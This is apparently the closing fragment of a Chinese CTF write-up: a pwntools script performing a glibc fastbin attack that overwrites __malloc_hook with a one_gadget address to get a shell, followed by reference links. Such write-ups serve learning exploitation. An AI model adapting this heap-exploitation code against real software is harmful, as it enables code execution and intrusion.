 ```python
#malloc_hook=0x001b0768+libc_base-0x23 
#one_gadget=0x3a80e+libc_base

free(4)
free(1)
malloc(0x170,"E"*0x100+p64(0)+p64(0x71)+p64(malloc_hook))
malloc(0x65,"Y"*0x20)
malloc(0x65,p64(0)+"0"*3+p64(one_gadget)+p64(realloc+0x2)) #fastbin attack

#malloc(0x65,"Z"*0x20)
p.recvuntil("Your choice :")
p.sendline(str(1))
p.recvuntil("Size:")
p.sendline(str("123"))

p.interactive()


```



# 参考

https://www.anquanke.com/post/id/88961

https://blog.csdn.net/seaaseesa/article/details/103173435

https://bbs.pediy.com/thread-246786.htm